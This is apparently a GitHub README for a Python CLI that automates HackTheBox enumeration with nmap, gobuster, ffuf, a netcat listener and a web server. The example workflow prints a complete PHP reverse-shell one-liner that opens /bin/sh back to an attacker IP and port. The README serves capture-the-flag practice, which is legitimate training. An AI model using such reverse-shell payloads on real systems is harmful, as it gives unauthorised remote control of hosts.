 # htb-scripts
Automation of htb scripts from LLM while solving htb machines

Below is the documentation for the script, detailing its usage, commands, and functionalities.

---

# HTB Enumerator Tool Documentation

## Overview

The HTB Enumerator Tool is a modular and interactive command-line interface (CLI) designed to assist in the enumeration of HackTheBox (HTB) machines. It provides various functionalities such as running Nmap scans, updating `/etc/hosts`, starting web servers, and more. The tool supports command auto-completion and command history for a user-friendly experience.

## Installation

### Prerequisites

- Python 3.x
- `termcolor` module: Install via `pip install termcolor`
- `readline` module: Typically included with Python on Unix-like systems

### Required Tools

The script checks for and installs the following tools if they are not already present:
- `nmap`
- `gobuster`
- `ffuf`
- `whatweb`

## Usage

### Running the Script

To run the script, use the following command:

```bash
sudo python3 htb_enum.py
```

**Note**: The script must be run with root privileges (`sudo`) to update `/etc/hosts`.

### Interactive CLI

Once the script is running, you will be presented with a prompt:

```
htb_enum >
```

You can enter various commands to perform different tasks. The available commands are listed below.

### Commands

#### `nmap`

Sets the IP address for the target machine.

```
htb_enum > nmap
Set IP: <IP_ADDRESS>
```

#### `run`

Runs an Nmap scan on the set IP address.

```
htb_enum > run
```

#### `host`

Sets the hostname for the target machine and updates `/etc/hosts`.

```
htb_enum > host
Set Hostname: <HOSTNAME>
```

#### `check_ports`

Checks for open web ports (80, 443, 8080, 5000) from the Nmap scan results.

```
htb_enum > check_ports
```

#### `enumerate_web`

Enumerates web servers on the open ports found.

```
htb_enum > enumerate_web
```

#### `start_server`

Starts a Python3 web server on a specified port.

```
htb_enum > start_server
Enter port for Python3 web server: <PORT>
```

#### `nc_listener`

Starts a Netcat listener on a specified port.

```
htb_enum > nc_listener
Enter port for nc listener: <PORT>
```

#### `php_shell`

Generates a PHP reverse shell command for a specified IP and port.

```
htb_enum > php_shell
Enter your IP for reverse shell: <YOUR_IP>
Enter your port for reverse shell: <YOUR_PORT>
```

#### `exit`

Exits the tool.

```
htb_enum > exit
```

### Auto-completion and Command History

- **Auto-completion**: Press the `Tab` key to auto-complete commands.
- **Command History**: Use the `Up` and `Down` arrow keys to navigate through previously entered commands.

## Example Workflow

1. **Set IP Address**:
   ```
   htb_enum > nmap
   Set IP: 10.10.10.10
   IP is set to 10.10.10.10
   ```

2. **Run Nmap Scan**:
   ```
   htb_enum > run
   Running Nmap scan... 🔍
   Nmap scan completed. Results saved in nmap_scan.txt ✅
   ```

3. **Set Hostname and Update `/etc/hosts`**:
   ```
   htb_enum > host
   Set Hostname: target
   Hostname is set to target
   Updating /etc/hosts... 🛠️
   Added 10.10.10.10    target.htb to /etc/hosts ✅
   ```

4. **Check Open Web Ports**:
   ```
   htb_enum > check_ports
   Open web ports: [80, 443]
   ```

5. **Enumerate Web Servers**:
   ```
   htb_enum > enumerate_web
   Enumerating web server on port 80... 🌐
   ...
   Enumerating web server on port 443... 🌐
   ...
   ```

6. **Start Python3 Web Server**:
   ```
   htb_enum > start_server
   Enter port for Python3 web server: 8000
   Starting Python3 web server on port 8000... 🌐
   ```

7. **Start Netcat Listener**:
   ```
   htb_enum > nc_listener
   Enter port for nc listener: 4444
   Starting nc listener on port 4444... 📡
   ```

8. **Generate PHP Reverse Shell Command**:
   ```
   htb_enum > php_shell
   Enter your IP for reverse shell: 192.168.1.100
   Enter your port for reverse shell: 4444
   PHP reverse shell command: php -r '$sock=fsockopen("192.168.1.100",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
   ```

## Error Handling

- **EOFError**: If you accidentally press `Ctrl+D`, the script will prompt you to use the `exit` command to quit.
- **KeyboardInterrupt**: If you press `Ctrl+C`, the script will remind you to use the `exit` command to quit.

## Exiting the Tool

To exit the tool, simply type:

```
htb_enum > exit
```

## Saving Command History

The command history is saved to `~/.htb_enum_history` and is loaded when the tool starts. This allows you to navigate through previous commands using the arrow keys.

## Conclusion

The HTB Enumerator Tool is designed to streamline the enumeration process for HackTheBox machines, providing a modular and interactive interface. With command auto-completion, history navigation, and a variety of built-in functionalities, it aims to enhance the efficiency and effectiveness of your enumeration tasks.

---

Feel free to customize and extend the tool as needed to fit your specific requirements. Happy enumerating!
